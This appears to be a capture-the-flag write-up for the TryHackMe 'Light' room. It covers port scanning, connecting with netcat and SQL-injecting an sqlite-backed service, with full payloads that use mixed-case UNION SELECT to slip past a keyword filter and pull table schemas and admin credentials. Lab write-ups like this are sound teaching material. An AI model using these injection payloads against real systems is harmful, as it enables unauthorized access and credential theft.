

# Light

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/lightroom](https://tryhackme.com/room/lightroom)

**Difficulty:** Easy

**Category:** SQL Injection 

**Description:** Welcome to the Light database application!

Additional Info: 


---

<details>
<summary> <h2> TLDR (Spoilers) </h2> </summary>

A database was identified on port `1337` which takes a username and returns the password associated to it. The application showed potential for `SQL Injection` vulnerability, and upon further testing, injection turned out to be true. By sending carefully crafted payloads it is possible to extract the admin `TryHackMeAdmin`'s password alongside the flag.   

</details>


## Initial Reconnaissance

Nmap scan:

```
nmap -A -v -p- <IP> -oN nmapresult.txt
```

Without `-p-`, nmap does not show port 1337 since it is not one of the 1000 most common ports. Not that I needed to do it since the description already tells us, but what if it didnt?   



nmap thinks port `1337` is `waste`, but I ignored that since I know its a database. 

I accessed the database via `netcat`. Command: `nc <IP> <PORT>`

```bash
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/light]
└─$ nc 10.48.173.180 1337
Welcome to the Light database!
Please enter your username:

```

Thankfully, the challenge description gave a username to try. So I used that to see the application’s response. 

```
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username:
```

So it outputs `smokey`'s password. I immediately tried this password on SSH, but it turned out to be wrong. Never hurts to reuse passwords in CTFs. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/light]
└─$ ssh smokey@10.48.173.180
The authenticity of host '10.48.173.180 (10.48.173.180)' can't be established.
ED25519 key fingerprint is: SHA256:Cva35yh2yiGEWgfarHO386CITlFe+g27OcmegvFf1J8
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.48.173.180' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
smokey@10.48.173.180's password:
Permission denied, please try again.
```

Then I tried some common variants of `admin` on the database, but it kept returning the `Username not found.` message.

Since this is a database, it probably uses `MySQL` or `sqlite`. So I checked if it injection is possible.  

```
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: "
Username not found.
Please enter your username: '--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: '%00
Error: unrecognized token: "' LIMIT 30"
Please enter your username:
```

There are some filters, but `SQL Injection` is definitely possible. 

## SQL Injection Attack

I tried UNION attacks, but unfortunately those are filtered as well. 

```
Please enter your username: ' UNION
Ahh there is a word in there I don't like :(
Please enter your username: ' SELECT
Ahh there is a word in there I don't like :(
```

However, the server checks this very loosely. It checks upper case (`UNION/ SELECT`) and lower case (`union/ select`) only. So using a mix of both like `UnIOn sELEcT` can be used to bypass it. This shows weak server side filtering. 

I tried injection for `MySQL/ PostgreSQL`first. 

```sql
Please enter your username: ' unION sElECT table_name, NULL fROm information_schema.tables 
Error: unrecognized token: "' LIMIT 30" 
```

So the database is most likely not one of those 2. I tried injection according to `sqlite` syntax next. 

```sql
Please enter your username: ' unION sElECT name frOm sqlite_master WHERe type='table'
Error: unrecognized token: "'table'' LIMIT 30"
```

I get a different error, so it was definitely `sqlite`. Since comments are filtered, the original query’s single quote `'` was causing me trouble. So I removed the final `'` after table so the original query’s quotes would close it. 

```
Please enter your username: ' unION sElECT name frOM sqlite_master WHERe type='table
Password: admintable
```

### Query Explanation

The server probably has a query like 

```sql
SELECT password FROM users WHERE username='$input' LIMIT 30
```

What is filtered: `/* -- %0b UNION SELECT union select`. So when I input something like `'` it makes the query 

```sql
SELECT password FROM users WHERE username=''' LIMIT 30
```

which causes the error. That trailing `'` still remains ever after the payload `' unION sElECT name frOM sqlite_master WHERe type='table'`. 

So removing that trailing `'` to make the payload `' unION sElECT name frOM sqlite_master WHERe type='table` allows the quote to close the table naturally. This makes the query valid and error free, giving the table `admintable`. 

Next, I had to know the columns in `admintable`. sqlite saves the query of creating a table in the `sql` column in the `sqlite_master` table. 

```sql
Please enter your username: ' unION sElECT sql frOM sqlite_master WHERe name='admintable
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

Then I extracted usernames and passwords. `smokey`'s password did not help with SSH, but there could be other users’ credentials which could give me access.  

```
Please enter your username: ' unION sElECT username frOM 'admintable
Password: TryHackMeAdmin
Please enter your username: ' unION sElECT password frOM 'admintable
Password: THM{REDACTED}
```

I expected a password to reuse on SSH, but it straight up gave me the flag instead lol. So I assume the query returns only one row since I did not see `TryHackMeAdmin`'s password. This could be because of `LIMIT`. 

I used `group_concat()` to get all passwords at once. `group_concat()` is a function that “groups” all the results into a single row. 

So, the `UNION` combines result sets, and `group_concat()` collapses all rows into one before the outer LIMIT applies to that single combined row. 

```
Please enter your username: ' unION sElECT group_concat(password) frOM 'admintable
Password: mamZtAuMlrsEy5bp6q17,THM{REDACTED}
```

With that, the challenge is completed. 

## Exploitation Chain

| **Steps** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Database on port `1337`.  |
| 2 | Input the given username `smokey` | Get `smokey`'s password. |
| 3 | Test for SQLi | Identified injection possibility |
| 4 | Send SQLi payload  | Get `TryHackMeAdmin`'s password + the flag |
